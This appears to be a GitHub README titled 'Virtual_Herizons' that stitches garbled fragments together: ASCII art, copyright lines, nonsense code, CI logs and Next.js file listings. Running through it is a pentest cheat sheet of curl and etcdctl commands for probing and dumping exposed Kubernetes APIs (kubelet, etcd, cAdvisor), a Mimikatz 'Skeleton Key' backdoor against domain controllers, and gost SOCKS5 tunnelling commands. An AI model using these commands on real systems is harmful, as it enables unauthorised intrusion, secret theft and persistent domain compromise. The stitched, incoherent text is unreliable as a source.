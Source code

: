# Virtual_Herizons

<pre id="output" class="d-inline-block text-left mb-0" style="overflow-y: hidden;">  ____     _ _       _              ____                  _               <br> / ___|___| | |_   _| | __ _ _ __  / ___|  ___ _ ____   _(_) ___ ___  ___ <br>| |   / _ \ | | | | | |/ _` | '__| \___ \ / _ \ '__\ \ / / |/ __/ _ \/ __|<br>| |__|  __/ | | |_| | | (_| | |     ___) |  __/ |   \ V /| | (_|  __/\__ \<br> \____\___|_|_|\__,_|_|\__,_|_|    |____/ \___|_|    \_/ |_|\___\___||___/</pre>

* (c) 2019 kazuya kawaguchi
* (c) 2023 Zaxkeroth
* (c) 2005, 2007 Bob Ippolito. All Rights Reserved.
* (c) The Closure Library Authors.
## SPDX-License-Identifier: MIT
```
import os
import sys
import m= b, tp, r:436 # bloat_code
$vendors-node-modules_-ba0e4d5b3207.js:15
$ls 
$cd
$forced reflow
[DOM] exceptions (in promise)
8:30, crash
2023-03-25T21:14:25.1705153Z ##[section]Starting: Prepare job test
2023-03-25T21:14:25.1707846Z Evaluating strategy
2023-03-25T21:14:25.1712696Z Creating job '__default'
2023-03-25T21:14:25.1715118Z Evaluating timeout
2023-03-25T21:14:25.1715190Z Evaluating cancel timeout
2023-03-25T21:14:25.1715228Z Evaluating continue on error
2023-03-25T21:14:25.1715272Z Evaluating target
2023-03-25T21:14:25.1717082Z ##[section]Finishing: Prepare job test
*弃用*
/_next/static/chunks/pages/%5BversionId%5D/%5BproductId%5D/%5B...restPage%5D-0a388d0202310049.js119B
/_next/static/xR23a7L8uutSe_4ww_xRn/_buildManifest.js76B
/_next/static/xR23a7L8uutSe_4ww_xRn/_ssgManifest.js74B
/_next/static/chunks/polyfills-c67a75d1b6f99dc8.js73B
/_next/static/chunks/856-9ad78b8d852d1279.js67B
/_next/static/chunks/335-c28a1896766e22f6.js67B
/_next/static/chunks/377-db71c9ecf498e436.js67B
/_next/static/chunks/833-c07ccb17b9c4f763.js67B
/_next/static/chunks/584-0d3303dbd89ed456.js67B
/_next/static/chunks/200-76f833ab3eb14f10.js67B
[POST]
[VERIFICATION]
~
```

#### chrome crashing
```
$ _.ksend
this loop # china llc
[VIOLATION]
*这。无尽的。环形*
- Failed to construct clipboard
+ Blocked D  e  V  Tool Request 
[!] JWt API XPLOIT 
[!] JSON WEB token leakage
```
## API addresses that (You) should know 
*(External network visibility)*
### cAdvisor
```powershell
curl -k https://<IP Address>:4194
```
### Insecure API server
```powershell
curl -k https://<IP Address>:8080
```
### Secure API Server
```powershell
curl -k https://<IP Address>:(8|6)443/swaggerapi
curl -k https://<IP Address>:(8|6)443/healthz
curl -k https://<IP Address>:(8|6)443/api/v1
```
### etcd API
```powershell
curl -k https://<IP address>:2379
curl -k https://<IP address>:2379/version
etcdctl --endpoints=http://<MASTER-IP>:2379 get / --prefix --keys-only
```
### Kubelet API
```powershell
curl -k https://<IP address>:10250
curl -k https://<IP address>:10250/metrics
curl -k https://<IP address>:10250/pods
```
### kubelet (Read only)
```powershell
curl -k https://<IP Address>:10255
http://<external-IP>:10255/pods
```
| prompt | -para |
| ------ | ----- |
| specif | -user |
| psswrd | -con  | 
| remote | -host |

~~AWS_SOCIALIST_MEDIUMS_PUPPETEERING~~

### Skeleton Key
```powershell
# Exploitation Command runned as DA:
>Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DCs FQDN>
# Access using the password "mimikatz"
[Enter]
$-PSSes
> Server side: gost -L=socks5://:1080
> Client side: gost -L=:8080 -F=socks5://server_ip:1080?notls=true
[tpl, cName: Z4](https://www.theprodigyleague.github.io)
[subdomain](http://www.assetproductions.net)
